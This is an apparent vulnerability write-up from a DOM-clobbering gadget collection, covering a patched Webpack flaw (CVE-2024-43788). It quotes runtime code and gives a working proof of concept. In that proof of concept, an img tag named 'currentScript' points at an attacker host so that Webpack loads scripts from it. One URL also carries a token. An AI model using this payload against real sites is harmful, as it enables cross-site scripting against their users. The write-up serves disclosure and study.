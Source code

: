 ## Webpack

### Meta

+ Library: Webpack
+ Stars: 64.4K
+ Version: v5.93.0
+ Fingerprint: `typeof __webpack_require__ !== 'undefined' && __webpack_require__.hasOwnProperty('p')`
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx"></img>```
+ Impact: XSS
+ Status: Patched
+ CVE: CVE-2024-43788
+ Foundby: TheHulk

### Library

https://github.com/webpack/webpack

### Vulnerable Code Snippet

`webpack/runtime/publicPath`
```javascript
var scriptUrl;
if (__webpack_require__.g.importScripts) scriptUrl = __webpack_require__.g.location + "";
var document = __webpack_require__.g.document;
if (!scriptUrl && document) {
	if (document.currentScript)
		scriptUrl = document.currentScript.src;
	if (!scriptUrl) {
		var scripts = document.getElementsByTagName("script");
		if(scripts.length) {
			var i = scripts.length - 1;
			while (i > -1 && (!scriptUrl || !/^http(s?):/.test(scriptUrl))) scriptUrl = scripts[i--].src;
		}
	}
}
// When supporting browsers where an automatic publicPath is not supported you must specify an output.publicPath manually via configuration
// or pass an empty string ("") and set the __webpack_public_path__ variable from your code to use your own logic.
if (!scriptUrl) throw new Error("Automatic publicPath is not supported in this browser");
scriptUrl = scriptUrl.replace(/#.*$/, "").replace(/\?.*$/, "").replace(/\/[^\/]+$/, "/");
__webpack_require__.p = scriptUrl;
```

`webpack/runtime/jsonp chunk loading`
```javascript
function loadUpdateChunk(chunkId, updatedModulesList) {
	currentUpdatedModulesList = updatedModulesList;
	return new Promise((resolve, reject) => {
		waitingUpdateResolves[chunkId] = resolve;
		// start update chunk loading
		var url = __webpack_require__.p + __webpack_require__.hu(chunkId);
		// create error before stack unwound to get useful stacktrace later
		var error = new Error();
		var loadingEnded = (event) => {
			if(waitingUpdateResolves[chunkId]) {
				waitingUpdateResolves[chunkId] = undefined
				var errorType = event && (event.type === 'load' ? 'missing' : event.type);
				var realSrc = event && event.target && event.target.src;
				error.message = 'Loading hot update chunk ' + chunkId + ' failed.\n(' + errorType + ': ' + realSrc + ')';
				error.name = 'ChunkLoadError';
				error.type = errorType;
				error.request = realSrc;
				reject(error);
			}
		};
		__webpack_require__.l(url, loadingEnded);
	});
}
```

`webpack/runtime/load script`
```javascript
__webpack_require__.l = (url, done, key, chunkId) => {
	if(inProgress[url]) { inProgress[url].push(done); return; }
	var script, needAttach;
	if(key !== undefined) {
		var scripts = document.getElementsByTagName("script");
		for(var i = 0; i < scripts.length; i++) {
			var s = scripts[i];
			if(s.getAttribute("src") == url || s.getAttribute("data-webpack") == dataWebpackPrefix + key) { script = s; break; }
		}
	}
	if(!script) {
		needAttach = true;
		script = document.createElement('script');

		script.charset = 'utf-8';
		script.timeout = 120;
		if (__webpack_require__.nc) {
			script.setAttribute("nonce", __webpack_require__.nc);
		}
		script.setAttribute("data-webpack", dataWebpackPrefix + key);

		script.src = url;
	}
	inProgress[url] = [done];
	var onScriptComplete = (prev, event) => {
		// avoid mem leaks in IE.
		script.onerror = script.onload = null;
		clearTimeout(timeout);
		var doneFns = inProgress[url];
		delete inProgress[url];
		script.parentNode && script.parentNode.removeChild(script);
		doneFns && doneFns.forEach((fn) => (fn(event)));
		if(prev) return prev(event);
	}
	var timeout = setTimeout(onScriptComplete.bind(null, undefined, { type: 'timeout', target: script }), 120000);
	script.onerror = onScriptComplete.bind(null, script.onerror);
	script.onload = onScriptComplete.bind(null, script.onload);
	needAttach && document.head.appendChild(script);
};
```

## More Details 

```
<html>
<head>
    <title>Webpack Gadgets</title>
</head>
<body>
<img name="currentScript" src="https://xxx.xxxx.xxx"></img>


<script src="https://raw.githubusercontent.com/xxxxxxxxxxxx/dom-clobbering-collection/main/domc-gadgets-assets/webpack/dist/webpack-gadgets.bundle.js?token=GHSAT0AAAAAACHOWGIH7SZYJ4GGACO6R4ZOZVDEPLQ"></script>
</body>
</html>
```

The `webpack.config.js` to generate the bundle can be found below. Note that, to avoid `__webpack_require__.p` being set as a fixed value, the config shouldn't set the `output.publicPath` field to a fix string.

```
module.exports = {
  entry: './entry.js', // Ensure the correct path to your entry file
  output: {
    filename: 'webpack-gadgets.bundle.js', // Output bundle file
    path: path.resolve(__dirname, 'dist'), // Output directory
    // publicPath: '/dist/', // this line will make __webpack_require__.p = "/dist/";
  },
  target: 'web',
  mode: 'development',
};
```

Webpack's generated code differes significantly for each use. Ensure that the code snippets appear, then browse the network requests to see the URLs that are requested. Some users may configure their public path differently. Fingerprint may not work if Webpack is configured to not produce source maps.


## PoC

```html
<!--Library-->
<script src="./dist/webpack-gadgets.bundle.js"></script>
<!--Library-->

<!--Payload-->
<img name="currentScript" src="http://localhost:9999"></img>
<!--Payload-->
```